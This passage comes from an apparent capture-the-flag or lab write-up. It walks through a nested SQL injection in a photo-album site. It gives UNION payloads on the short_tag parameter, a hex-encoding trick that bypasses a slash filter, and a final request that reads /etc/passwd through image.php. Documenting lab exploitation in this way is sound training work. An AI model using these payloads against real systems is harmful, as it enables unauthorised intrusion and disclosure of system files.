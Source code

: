 [18:23:35] [INFO] table 'web.albums' dumped to CSV file '/home/mrblue/.local/share/sqlmap/output/10.10.131.204/dump/web/albums.csv'
[18:23:35] [INFO] fetched data logged to text files under '/home/mrblue/.local/share/sqlmap/output/10.10.131.204'

[*] ending @ 18:23:35 /2025-06-03/

sqlmap confirmed the MySQL (MariaDB fork) backend and the presence of albums and images tables within the web database. It also identified filtered characters, as indicated by the "server trimmed output" warnings, similar to our initial findings.
Nested SQL Injection

Although the initial SQL injection didn't yield critical data directly, it provided crucial insights:

    The query for the short_tag (SELECT id from albums where short_tag = '<short_tag>') fetches the album ID.
    The album.php page also displays image paths, which are stored in the images table. This strongly suggested a second query, likely SELECT * from images where album_id = <album_id>, where <album_id> is the result of the first query. There was a high chance this second query's album_id was not sanitized.
    The database didn't store image hashes. It was probable that album.php calculated these hashes programmatically. If we could inject into this second query to control the returned path, we could force album.php to calculate a hash for an arbitrary path, allowing us to use image.php to include any file.

We tested this theory. A payload like moebus' UNION SELECT 0-- - on the short_tag (e.g., http://10.10.131.204/album.php?short_tag=moebus%27%20UNION%20SELECT%200--%20-) successfully controlled the album_id returned by the first query, as seen in the HTML comment: ``.

Next, the payload moebus' UNION SELECT "0 OR 1=1-- -"-- - (accessed via http://10.10.213.188/album.php?short_tag=moebus%27%20UNION%20SELECT%20%220%20OR%201=1--%20-%22--%20-) made the first query return 0 OR 1=1-- - as the album ID. As hypothesized, the second query became SELECT * from images where album_id=0 OR 1=1-- -, causing all images to be displayed, confirming the nested SQL injection vulnerability.

To control the path returned by the second query, we used a UNION-based payload with three columns: moebus' UNION SELECT "0 UNION SELECT 1,2,3-- -"-- - (accessed via http://10.10.213.188/album.php?short_tag=moebus%27%20UNION%20SELECT%20%220%20UNION%20SELECT%201,2,3--%20-%22--%20-). We confirmed the third column was the path.

Attempting to set the path to /etc/passwd using a direct string was prevented by the / filter. This was bypassed by hex-encoding /etc/passwd. We used the following steps to convert the string:
Bash

    echo -n "/etc/passwd" | xxd -p | tr -d '\n' | sed 's/^/0x/'

This produced 0x2f6574632f706173737764.

The final payload for reading /etc/passwd was:

    moebus' UNION SELECT "0 UNION SELECT 1,2,0x2f6574632f706173737764-- -"-- -

This successfully forced album.php to calculate the hash for /etc/passwd. With the calculated hash (9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d), we could read /etc/passwd via:

    http://10.10.131.204/image.php?hash=9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d&path=/etc/passwd
